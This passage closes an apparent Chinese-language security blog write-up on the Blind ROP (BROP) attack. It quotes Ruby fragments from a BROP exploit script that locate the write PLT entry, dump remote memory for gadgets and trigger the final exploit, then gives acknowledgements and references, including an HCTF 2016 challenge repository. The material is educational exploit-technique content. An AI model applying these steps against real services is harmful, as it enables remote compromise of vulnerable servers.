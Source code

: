 
[![](https://p3.ssl.qhimg.com/t017e7ac551ad670ebe.png)](https://p3.ssl.qhimg.com/t017e7ac551ad670ebe.png)

而write函数的plt项，就是利用多次写入socket，如果能打开多个文件描述符的话，就是write了。



```
def find_write()
entry = 0
find_plt_start() if @small and not @plt_start
get_banner_len()
while entry &lt; 300
if try_write(entry)#尝试文件描述符写入
print("nFound write at #`{`@write`}` (wlen #`{`@strcmp_len`}`)n")
break
end
entry += 1
End
```

这样，就能够获取到write plt，rdi，rsi和rdx所有的组件了，这样就可以dump内存，通过dump内存，可以组成更多的gadgets，最后执行shellcode完成攻击。



```
do_step(method(:find_rdx)) if not have_small_write() #用strcmp构成第三个参数
do_step(method(:dump_bin)) if not can_exploit() #dump 内存，获取更多的gadgets
do_step(method(:exploit)) #攻击！
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01754a00dff9dfb835.png)

[![](https://p4.ssl.qhimg.com/t017f8df4142463718c.png)](https://p4.ssl.qhimg.com/t017f8df4142463718c.png)

Blind ROP是一个非常有意思的攻击，虽然难度不大，但是很复杂，也很开脑洞，着实学到了很多东西，在这里，非常感谢explorer，0xmuhe，joker，swing各位师傅一起交流学习，同时也感谢安全客，如有不当之处，还请大家多多交流，这应该是节前最后一篇文章了，春节快到了，在这里祝大家给大家拜个早年！新年快乐，谢谢！

<br>

**参考文章**

[http://www.scs.stanford.edu/brop/](http://www.scs.stanford.edu/brop/)

[http://blog.csdn.net/omnispace/article/details/51006149](http://blog.csdn.net/omnispace/article/details/51006149)

[https://github.com/zh-explorer/hctf2016-brop](https://github.com/zh-explorer/hctf2016-brop)

[http://ytliu.info/blog/2014/06/01/blind-return-oriented-programming-brop-attack-er/](http://ytliu.info/blog/2014/06/01/blind-return-oriented-programming-brop-attack-er/)
